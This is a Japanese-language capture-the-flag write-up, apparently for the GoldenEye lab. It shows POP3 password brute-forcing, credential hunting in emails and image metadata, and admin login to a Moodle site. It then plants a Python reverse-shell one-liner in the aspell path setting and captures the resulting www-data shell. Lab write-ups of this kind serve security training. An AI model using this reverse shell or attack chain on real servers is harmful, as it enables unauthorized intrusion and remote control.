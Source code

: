 ## severnaya-station.com/gnocertdir

xeniaとしてログイン可能。

見つかったDoakユーザーのパスワードをPOP3でブルートフォース成功。

### Doak POP3

doak@ubuntu

```
James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: [REDACTED]
```

dr_doak で severnaya-station.com/gnocertdir にログインすると、テキストファイルが見つかる。

```
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
```

jpgをexiftoolにかけると、Base64文字列が出てくる。

```
Image Description               : [REDACTED]
```

デコードするとパスワードになり、adminとしてログインできる。

1. Server -> System Paths -> Path to aspell でリバースシェルを仕込む。

```
export RHOST="10.11.146.32";export RPORT=8888;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

2. Plugins -> Text Editors -> TinyMCE HTML Editor で PSSpellShell を選択

3. ブログ編集画面でスペルチェッカーボタンを押すと、トリガーされる。

```sh
$ nc -lnvp 8888                  
listening on [any] 8888 ...
connect to [10.11.146.32] from (UNKNOWN) [10.201.42.154] 52185
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
